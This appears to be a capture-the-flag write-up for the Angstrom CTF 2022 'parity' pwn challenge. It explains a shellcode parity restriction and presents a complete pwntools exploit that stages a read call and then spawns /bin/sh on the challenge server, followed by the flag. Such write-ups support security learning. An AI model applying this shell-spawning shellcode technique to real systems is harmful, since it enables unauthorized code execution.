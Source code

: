 ```yaml
---
title: "[Pwn] parity [Angstrom CTF 2022]"
date: 2022-05-07 00:17:00
---
```


# 0x0 Introduction

Check your parity.

nc challs.actf.co 31226

Author: JoshDaBosh

files: [parity](parity)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


# 0x2 Vulnerability

basically, the `main` function ask us to enter a shellcode, then it will execute this shellcode. however the shellcode must satisfy a *parity*.

according to the program, the last bit of each byte in the shell must equal 0 or 1 depending on the index.

More specifically, for nth byte in the shell code, if the n is even, this byte must be even, if the n is odd, this byte must be odd.

It is not possible to construct `syscall('/bin/sh')` shellcode that satisfy this parity. But we can call `read` in our shellcode and then write `syscall('/bin/sh')` shellcode using `read` function.

1. construct a shellcode satisfy parity that calls `read`,
2. enter /bin/sh shellcode
3. get shell

# 0x3 Exploit

```
from pwn import *

exe = ELF("parity")
# libc = ELF("libc.so.6")
# ld = ELF("./ld-2.27.so")

context.binary = exe
# context.log_level = 'DEBUG'

def start():
    if args.LOCAL:
        r = process([exe.path])
        if args.R2:
            input("Wait r2 attach")
    else:
        r = remote("challs.actf.co", 31226)
    return r

def check_parity(shellcode):
    for index,b in enumerate(shellcode):
        print(index,b,b & 1,(index - (index >> 0x1f) & 1) +(index >> 0x1f))
        if (b & 1) != (index - (index >> 0x1f) & 1) +(index >> 0x1f):
            return False
    return True


io = start()

shellcode = '''
    mov rdx, 0x00011001
    mov ebx, 0x014011f0
    nop
    push rbx
    pop rax
    xor eax, 0x01000100
    nop
    call rax
'''
shell_sh = asm(shellcode)
with open("shelcd","wb") as f:
    f.write(shell_sh)
for index,b in enumerate(shell_sh):
    print(hex(b),b&1,index % 2)
print(check_parity(shell_sh))

io.sendafter(b"> ",shell_sh)
input("get shell")
io.send(shell_sh+asm(shellcraft.sh()))

io.interactive()

```

# 0x4 Flag

actf{f3els_like_wa1king_down_4_landsl1de_6d28d72fd7db}